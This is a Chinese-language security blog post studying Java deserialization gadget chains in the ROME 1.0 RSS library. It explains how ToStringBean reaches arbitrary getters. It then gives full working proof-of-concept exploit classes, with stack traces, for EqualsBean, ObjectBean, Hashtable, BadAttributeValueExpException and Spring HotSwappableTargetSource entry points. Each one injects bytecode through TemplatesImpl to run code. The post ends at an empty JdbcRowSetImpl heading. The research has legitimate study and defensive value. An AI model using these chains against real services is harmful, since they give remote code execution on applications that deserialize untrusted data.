



+++
title= "Rome反序列化漏洞"
slug= "java-rome-deserialization"
description= "非常顺畅的一次学习"
date= "2025-10-13T21:55:34+08:00"
lastmod= "2025-10-13T21:55:34+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## ROME简介&&环境搭建

官方文档：https://rometools.github.io/rome/

> ROME is a Java framework for RSS and Atom feeds. It's open source and licensed under the Apache 2.0 license.
> ROME includes a set of parsers and generators for the various flavors of syndication feeds, as well as converters to convert from one format to another. The parsers can give you back Java objects that are either specific for the format you want to work with, or a generic normalized SyndFeed class that lets you work on with the data without bothering about the incoming or outgoing feed type.

ROME 是一个用于 RSS 和 Atom 订阅的 Java 框架。它是开源的，并根据 Apache 2.0 许可授权。

ROME 包括一套解析器和生成器，可用于各种形式的聚合提要，以及将一种格式转换为另一种格式的转换器。解析器可以为您提供特定格式的 Java 对象，或者是通用的规范化 SyndFeed 类，让您可以处理数据，而无需考虑传入或传出的 feed 类型。

使用 jdk 为 8u211，pom.xml如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Hessian</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <javassist.version>3.29.2-GA</javassist.version>
        <rome.version>1.0</rome.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>${rome.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

    </dependencies>

</project>
```

## Poc debug learn

### 前置

学习 gadget 之前，我们需要思考一下，为什么这个依赖有反序列化漏洞，那必然是他有可以触发任意 getter 的方法，而在这里，这个方法就是`ToStringBean#toString(String prefix)`

```java
private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);

        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
            if (pds != null) {
                for(int i = 0; i < pds.length; ++i) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                        Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
                        this.printProperty(sb, prefix + "." + pName, value);
                    }
                }
            }
        } catch (Exception ex) {
            sb.append("\n\nEXCEPTION: Could not complete " + this._obj.getClass() + ".toString(): " + ex.getMessage() + "\n");
        }

        return sb.toString();
    }
```

一般的，去查找使用`Method.invoke()`、`PropertyDescriptor`等反射调用 getter 的代码，在`toString(String prefix)`方法中，for 循环作用就是循环反射通过 pds 取到的任意 getter 方法。

为什么要去找呢，以这个方法为例子，跟进到`getPropertyDescriptors`

```java
public static synchronized PropertyDescriptor[] getPropertyDescriptors(Class klass) throws IntrospectionException {
        PropertyDescriptor[] descriptors = (PropertyDescriptor[])_introspected.get(klass);
        if (descriptors == null) {
            descriptors = getPDs(klass);
            _introspected.put(klass, descriptors);
        }

        return descriptors;
    }
```

继续跟进`getPDs`

```java
    private static PropertyDescriptor[] getPDs(Class klass) throws IntrospectionException {
        Method[] methods = klass.getMethods();
        Map getters = getPDs(methods, false);
        Map setters = getPDs(methods, true);
        List pds = merge(getters, setters);
        PropertyDescriptor[] array = new PropertyDescriptor[pds.size()];
        pds.toArray(array);
        return array;
    }
```

获取所有方法然后分别解析 getter（false）和 setter（true），合并为完整的PropertyDescriptor列表，再以数组返回。要想知道如何解析的呢，继续跟进`getPDs`

```java
private static Map getPDs(Method[] methods, boolean setters) throws IntrospectionException {
        Map pds = new HashMap();

        for(int i = 0; i < methods.length; ++i) {
            String pName = null;
            PropertyDescriptor pDescriptor = null;
            if ((methods[i].getModifiers() & 1) != 0) {
                if (setters) {
                    if (methods[i].getName().startsWith("set") && methods[i].getReturnType() == Void.TYPE && methods[i].getParameterTypes().length == 1) {
                        pName = Introspector.decapitalize(methods[i].getName().substring(3));
                        pDescriptor = new PropertyDescriptor(pName, (Method)null, methods[i]);
                    }
                } else if (methods[i].getName().startsWith("get") && methods[i].getReturnType() != Void.TYPE && methods[i].getParameterTypes().length == 0) {
                    pName = Introspector.decapitalize(methods[i].getName().substring(3));
                    pDescriptor = new PropertyDescriptor(pName, methods[i], (Method)null);
                } else if (methods[i].getName().startsWith("is") && methods[i].getReturnType() == Boolean.TYPE && methods[i].getParameterTypes().length == 0) {
                    pName = Introspector.decapitalize(methods[i].getName().substring(2));
                    pDescriptor = new PropertyDescriptor(pName, methods[i], (Method)null);
                }
            }

            if (pName != null) {
                pds.put(pName, pDescriptor);
            }
        }

        return pds;
    }
```

主要就是解析 getter 和 setter，在看`ToStringBean#toString(String prefix)`的时候我发现就在它前面还有一个`toString()`，理论上来说我们也应该先看这个（找触发任意 toString）

```java
public String toString() {
        Stack stack = (Stack)PREFIX_TL.get();
        String[] tsInfo = (String[])(stack.isEmpty() ? null : stack.peek());
        String prefix;
        if (tsInfo == null) {
            String className = this._obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".") + 1);
        } else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }

        return this.toString(prefix);
    }
```

在这里我认为这个方法只起到连接利用链的作用～，现在后半段齐了，可以试下能否使用

```java
package org.Base.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;

public class Test_toString{

    public static void main(String[] args) throws Exception {
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Evil.class.getName()).toBytecode()});

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        toStringBean.toString();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
}
```

成功弹出计算器，可达，现在我们只需要找到 readObject 到 toString 即可。

### EqualsBeanPoc

万能的老对象`Hashmap#readObject`入口，触发 hashcode，在ROME这个依赖中有一个EqualsBean类中存在hashCode()，同时还能够调用任意类的toString，



```java
package org.Base.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class EqualsBeanPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        Map innerMap=new HashMap();
        innerMap.put(equalsBean,"123");

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(innerMap);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

没想到写起来还挺短的，最终的调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:510)
at sun.reflect.GeneratedMethodAccessor1.invoke(Unknown Source:-1)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.EqualsBean.hashCode(EqualsBean.java:176)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.put(HashMap.java:612)
at org.Base.Rome.EqualsBeanPoc.main(EqualsBeanPoc.java:25)
```

### ObjectBeanPoc

在`ObjectBean.hashcode()`中调用了`EqualsBean.beanHashCode()`，其作用和`EqualsBean.hashCode()`等价



```java
package org.Base.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class ObjectBeanPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        Map innerMap=new HashMap();
        innerMap.put(objectBean,"123");

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(innerMap);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

### HashTablePoc

但是一般地，万能入口 Hashmap 极有可能会被禁用，那接下来我们就可以使用一个类似的类HashTable

```java
private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the threshold and loadFactor
        s.defaultReadObject();

        // Validate loadFactor (ignore threshold - it will be re-computed)
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new StreamCorruptedException("Illegal Load: " + loadFactor);

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Validate # of elements
        if (elements < 0)
            throw new StreamCorruptedException("Illegal # of Elements: " + elements);

        // Clamp original length to be more than elements / loadFactor
        // (this is the invariant enforced with auto-growth)
        origlength = Math.max(origlength, (int)(elements / loadFactor) + 1);

        // Compute new length with a bit of room 5% + 3 to grow but
        // no larger than the clamped original length.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)((elements + elements / 20) / loadFactor) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        length = Math.min(length, origlength);

        if (length < 0) { // overflow
            length = origlength;
        }

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, length);
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // sync is eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

并没有直接的去调用`Hashcode`，跟进`reconstitutionPut`

```java
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

调用了Hashcode，接着写出poc

```java
package org.Base.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class HashTablePoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        Hashtable innerTable= new Hashtable<>();
        innerTable.put(objectBean,"123");

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(innerTable);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.EqualsBean.hashCode(EqualsBean.java:176)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1218)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.Test.unserialize(Test.java:52)
at org.example.Exp.Test.main(Test.java:32)
```

### BadAttributeValueExpExceptionPoc

CC5利用这个触发`TiedMapEntry#toString`，能触发 toString，我们就能拿来用

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

写出POC

```java
package org.Base.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;

public class BadAttributeValueExpExceptionPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        BadAttributeValueExpException badAttribute = new BadAttributeValueExpException(null);
        setFieldValue(badAttribute,"val",toStringBean);

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(badAttribute);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.GeneratedMethodAccessor1.invoke(Unknown Source:-1)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at org.Base.Rome.BadAttributeValueExpExceptionPoc.unserialize(BadAttributeValueExpExceptionPoc.java:47)
at org.Base.Rome.BadAttributeValueExpExceptionPoc.main(BadAttributeValueExpExceptionPoc.java:28)
```

### HotSwappableTargetSourcePoc

spring-aop 中的类，这里修改下 pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Hessian</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <javassist.version>3.29.2-GA</javassist.version>
        <rome.version>1.0</rome.version>
        <spring.version>5.3.23</spring.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>${rome.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>${spring.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>${spring.version}</version>
        </dependency>
    </dependencies>
</project>
```

回想7u21，`Hashmap#put`可以到`HashMap#putVal`

```java
final V putVal(int hash, K key, V value, boolean onlyIfAbsent,
                   boolean evict) {
        Node<K,V>[] tab; Node<K,V> p; int n, i;
        if ((tab = table) == null || (n = tab.length) == 0)
            n = (tab = resize()).length;
        if ((p = tab[i = (n - 1) & hash]) == null)
            tab[i] = newNode(hash, key, value, null);
        else {
            Node<K,V> e; K k;
            if (p.hash == hash &&
                ((k = p.key) == key || (key != null && key.equals(k))))
                e = p;
            else if (p instanceof TreeNode)
                e = ((TreeNode<K,V>)p).putTreeVal(this, tab, hash, key, value);
            else {
                for (int binCount = 0; ; ++binCount) {
                    if ((e = p.next) == null) {
                        p.next = newNode(hash, key, value, null);
                        if (binCount >= TREEIFY_THRESHOLD - 1) // -1 for 1st
                            treeifyBin(tab, hash);
                        break;
                    }
                    if (e.hash == hash &&
                        ((k = e.key) == key || (key != null && key.equals(k))))
                        break;
                    p = e;
                }
            }
            if (e != null) { // existing mapping for key
                V oldValue = e.value;
                if (!onlyIfAbsent || oldValue == null)
                    e.value = value;
                afterNodeAccess(e);
                return oldValue;
            }
        }
        ++modCount;
        if (++size > threshold)
            resize();
        afterNodeInsertion(evict);
        return null;
    }
```

本来想直接到 XString 的，但是发现怎么也写不好碰撞，于是找到`HotSwappableTargetSource#equals`

```java
    public boolean equals(Object other) {
        return this == other || other instanceof HotSwappableTargetSource && this.target.equals(((HotSwappableTargetSource)other).target);
    }
```

这个一看就是很好比较触发的，只要我 put 的时候放一样的元素就行了，再者，`XString#equals`能触发 toString，



写出poc

```java
package org.Base.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class HotSwappableTargetSourcePoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        XString xString = new XString("baozongwi");

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(xString);

        Map innerMap = new HashMap();
        innerMap.put(h1,h1);
        innerMap.put(h2,h2);

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.Base.Evil.class.getName()).toBytecode()});

        byte[] data=serialize(innerMap);
        unserialize(data);
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:104)
at java.util.HashMap.putVal(HashMap.java:635)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at org.Base.Rome.HotSwappableTargetSourcePoc.unserialize(HotSwappableTargetSourcePoc.java:54)
at org.Base.Rome.HotSwappableTargetSourcePoc.main(HotSwappableTargetSourcePoc.java:35)
```

### JdbcRowSetImplPoc

